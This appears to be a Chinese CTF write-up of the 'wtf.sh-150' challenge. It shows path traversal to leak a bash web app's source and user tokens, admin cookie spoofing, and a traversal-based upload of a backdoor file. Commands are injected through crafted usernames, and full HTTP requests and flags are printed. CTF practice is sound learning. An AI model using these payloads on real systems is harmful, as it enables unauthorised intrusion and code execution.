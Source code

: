 ```yaml
---
 layout:   post        # 使用的布局（不需要改）
 title:   wtf.sh-150   # 标题 
 subtitle:  攻防世界 #副标题
 date:    2020-08-14    # 时间
 author:   yanmie       # 作者
 header-img: img/.jpg  ##标签这篇文章标题背景图片
 catalog: true            # 是否归档
 tags:                
    - CTF

--- 
```


打开题目，浏览一遍·，像是一个论坛网站，题目环境是一个论坛，有注册、登录、发文章、评论的功能。

![d9OsRe.png](https://s1.ax1x.com/2020/08/14/d9OsRe.png)

sql注入没测试出来。

目录扫描也没啥。

先注册个账号，在展示文章的页面 post.wtf 下发现路径穿越漏洞。（如果应用程序使用用户可控制的数据，以危险的方式访问位于应用服务器或其它后端文件系统的文件或目录，就会出现路径遍历。攻击者可以将路径遍历序列放入文件名内，向上回溯，从而访问服务器上的任何文件）

`/post.wtf?post=../`,获得了网站源代码。。。

![d9j9tf.png](https://s1.ax1x.com/2020/08/14/d9j9tf.png)

寻找`ctf`或者`flag`关键字。

发现有flag关键字。

`$ source user_functions.sh`看起来像是用户管理功能的源码。

![d9vQat.png](https://s1.ax1x.com/2020/08/14/d9vQat.png)

```
    <html>
    <head>
        <link rel="stylesheet" type="text/css" href="/css/std.css" >
    </head>
    $ if contains 'user' ${!URL_PARAMS[@]} && file_exists "users/${URL_PARAMS['user']}"
    $ then
    $   local username=$(head -n 1 users/${URL_PARAMS['user']});
    $   echo "<h3>${username}'s posts:</h3>";
    $   echo "<ol>";
    $   get_users_posts "${username}" | while read -r post; do
    $       post_slug=$(awk -F/ '{print $2 "#" $3}' <<< "${post}");
    $       echo "<li><a href=\"/post.wtf?post=${post_slug}\">$(nth_line 2 "${post}" | htmlentities)</a></li>";
    $   done 
    $   echo "</ol>";
    $   if is_logged_in && [[ "${COOKIES['USERNAME']}" = 'admin' ]] && [[ ${username} = 'admin' ]]
    $   then
    $       get_flag1
    $   fi
    $ fi
    </html>

```

这里发现只要登陆进来并且cookie中`USERNAME`的值为`admin`,成功登录admin的账号就可以`get_flag1`得到flag1.

这里应该使cookie欺骗。

同时看到源码里有个`users`目录，穿越过去。

`/post.wtf?post=../users`得到了一些东西。第一个是

```
 Posted by 123456 
c4f9375f9834b4e7f0a528cc65c055702bf5f24a 
MvxtYvyBA7jv  
+dPIJB7qbc78FRspRvK2h6w82jEmN2TBGaC9mOvHt9wjoNyQZg3J4GaQ3HUuL/4h5arqNYgm0A== 

 Posted by admin 
ae475a820a6b5ade1d2e8b427b59d53d15f1f715 
uYpiNNf/X0/0xNfqmsuoKFEtRlQDwNbS2T6LdHDRWH5p3x4bL4sxN0RMg17KJhAmTMyr8Sem++fldP0scW7g3w==
```

这应该是凭据。抓包看下

![dCCIJI.png](https://s1.ax1x.com/2020/08/14/dCCIJI.png)

可以看到我们用户名下面的第二行就是代表我们身份的令牌，admin的令牌也知道了，可以进行 cookie 欺骗了。

成功得到flag1,`Flag: xctf{cb49256d1ab48803`

![dCniCD.png](https://s1.ax1x.com/2020/08/14/dCniCD.png)

因为 wtf 不是常规的网页文件，故寻找解析 wtf 文件的代码：

![dCnbZt.png](https://s1.ax1x.com/2020/08/14/dCnbZt.png)

    max_page_include_depth=64
    page_include_depth=0
    function include_page {
        # include_page pathname
        local pathname=$1
        local cmd=
        [[ ${pathname(-4)} = '.wtf' ]];
        local can_execute=$;
        page_include_depth=$(($page_include_depth+1))
        if [[ $page_include_depth -lt $max_page_include_depth ]]
        then
            local line;
            while read -r line; do
                # check if we're in a script line or not ($ at the beginning implies script line)
                # also, our extension needs to be .wtf
                [[ $ = ${line01} && ${can_execute} = 0 ]];
                is_script=$;
                # execute the line.
                if [[ $is_script = 0 ]]
                then
                    cmd+=$'n'${line#$};
                else
                    if [[ -n $cmd ]]
                    then
                        eval $cmd  log Error during execution of ${cmd};
                        cmd=
                    fi
                    echo $line
                fi
            done  ${pathname}
        else
            echo pMax include depth exceeded!p
        fi
    }

能够解析并执行 wtf 文件，如果还能够上传 wtf 文件并执行的话，就可以达到控制服务器的目的。

于是继续审计代码，发现如下代码给了这个机会：

    function reply {
        local post_id=$1;
        local username=$2;
        local text=$3;
        local hashed=$(hash_username "${username}");
        curr_id=$(for d in posts/${post_id}/*; do basename $d; done | sort -n | tail -n 1);
        next_reply_id=$(awk '{print $1+1}' <<< "${curr_id}");
        next_file=(posts/${post_id}/${next_reply_id});
        echo "${username}" > "${next_file}";
        echo "RE: $(nth_line 2 < "posts/${post_id}/1")" >> "${next_file}";
        echo "${text}" >> "${next_file}";
        # add post this is in reply to to posts cache
        echo "${post_id}/${next_reply_id}" >> "users_lookup/${hashed}/posts";
    }

这是评论功能的后台代码，这部分也是存在路径穿越的。

这行代码把用户名写在了评论文件的内容中：

	echo "${username}" > "${next_file}";

如果用户名是一段可执行代码，而且写入的文件是 wtf 格式的，那么这个文件就能够执行我们想要的代码。

先普通地评论一下，知晓评论发送的数据包的结构：

```
POST /reply.wtf?post=K8laH HTTP/1.1
Host: 220.249.52.133:42244
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
Origin: http://220.249.52.133:42244
Connection: close
Referer: http://220.249.52.133:42244/reply.wtf?post=K8laH
Cookie: USERNAME=123456; TOKEN=MvxtYvyBA7jv+dPIJB7qbc78FRspRvK2h6w82jEmN2TBGaC9mOvHt9wjoNyQZg3J4GaQ3HUuL/4h5arqNYgm0A==
Upgrade-Insecure-Requests: 1

text=hello&submit=
```

在普通评论的基础上，进行路径穿越，上传后门sh.wtf：

```
POST /reply.wtf?post=./../users_lookup/sh.wtf%09 HTTP/1.1
Host: 220.249.52.133:42244
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
Origin: http://220.249.52.133:42244
Connection: close
Referer: http://220.249.52.133:42244/reply.wtf?post=K8laH
Cookie: USERNAME=123456; TOKEN=MvxtYvyBA7jv+dPIJB7qbc78FRspRvK2h6w82jEmN2TBGaC9mOvHt9wjoNyQZg3J4GaQ3HUuL/4h5arqNYgm0A==
Upgrade-Insecure-Requests: 1

text=hello&submit=
```

路径处改为了`/reply.wtf?post=./../users_lookup/sh.wtf%09`

	%09是水平制表符，必须添加，不然后台会把我们的后门当做目录去解析。

访问后门，发现成功写入：

![dCKetf.png](https://s1.ax1x.com/2020/08/14/dCKetf.png)

为了写入恶意代码，我们得让用户名里携带代码，故注册这样一个用户：`${find,/,-iname,get_flag2}`    写入后门.

访问，发现

	/usr/bin/get_flag2 RE: hello 

获得 flag2 所在的路径。

继续构造用户名为恶意代码。`$/usr/bin/get_flag2` 写入后门：

访问后门，得到`Flag: 149e5ec49d3c29ca} ļv’ RE: hello `

拼接得到`xctf{cb49256d1ab48803149e5ec49d3c29ca}`
